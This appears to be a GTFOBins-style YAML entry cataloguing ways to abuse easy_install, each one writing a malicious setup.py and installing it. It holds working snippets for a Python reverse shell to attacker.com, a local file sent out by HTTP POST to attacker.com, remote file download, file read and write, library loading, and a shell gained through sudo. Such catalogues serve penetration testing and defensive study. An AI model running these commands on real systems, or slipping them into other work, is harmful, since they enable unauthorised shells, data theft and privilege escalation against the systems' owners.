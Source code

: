 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        easy_install $TF
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp -d)
        echo 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' > $TF/setup.py
        easy_install $TF
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
        easy_install $TF
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
        easy_install $TF
  download:
    - description: Fetch a remote file via HTTP GET request. The file path must be absolute.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', '$(whereis python)', '-c', \"\"\"import sys;
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
        pip install $TF
  file-write:
    - description: The file path must be absolute.
      code: |
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', 'python', '-c', 'open(\"$LFILE\",\"w+\").write(\"DATA\")')" > $TF/setup.py
        easy_install $TF
  file-read:
    - description: The read file content is wrapped within program messages.
      code: |
        TF=$(mktemp -d)
        echo 'print(open("file_to_read").read())' > $TF/setup.py
        easy_install $TF
  load-library:
    - code: |
        TF=$(mktemp -d)
        echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
        easy_install $TF
  sudo-enabled:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        sudo easy_install $TF
---
```

